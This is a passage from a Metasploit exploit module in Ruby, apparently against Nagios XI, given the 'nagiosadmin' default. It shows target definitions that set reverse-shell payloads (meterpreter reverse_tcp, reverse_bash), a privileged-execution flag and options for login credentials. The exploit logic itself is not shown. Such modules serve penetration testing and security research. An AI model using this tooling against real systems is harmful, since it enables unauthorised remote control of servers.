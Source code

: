               ],
            'Payload' => { 'BadChars' => "\x00" },
            'Targets' =>
              [
                [
                  'Linux (x86)', {
                    'Arch' => ARCH_X86,
                    'Platform' => 'linux',
                    'DefaultOptions' => { 'PAYLOAD' => 'linux/x86/meterpreter/reverse_tcp' }
                  }
                ],
                [
                  'Linux (x64)', {
                    'Arch' => ARCH_X64,
                    'Platform' => 'linux',
                    'DefaultOptions' => { 'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp' }
                  }
                ],
                [
                  'Linux (cmd)', {
                    'Arch' => ARCH_CMD,
                    'Platform' => 'unix',
                    'DefaultOptions' => { 'PAYLOAD' => 'cmd/unix/reverse_bash' },
                    'Payload' => {
                      'Append' => ' & disown', # the payload must be disowned after execution, otherwise cleanup fails
                      'BadChars' => '"'
                    }
                  }
                ]
              ],
            'Privileged' => true,
            'DisclosureDate' => '2019-07-29',
            'DefaultOptions' => { 'WfsDelay' => 300 }, # Necessary because the payload connects back with a significant delay. On versions older than 5.5.0 it takes especially long.
            'DefaultTarget' => 1,
            'Notes' =>
              {
                'Stability' => [ CRASH_SAFE, ],
                'SideEffects' => [ ARTIFACTS_ON_DISK, IOC_IN_LOGS, CONFIG_CHANGES ]
              }
          )
        )
        register_options [
          OptString.new('USERNAME', [true, 'Username to authenticate with', 'nagiosadmin']),
          OptString.new('PASSWORD', [true, 'Password to authenticate with', nil])
        ]
      end

      def username
        datastore['USERNAME']
      end
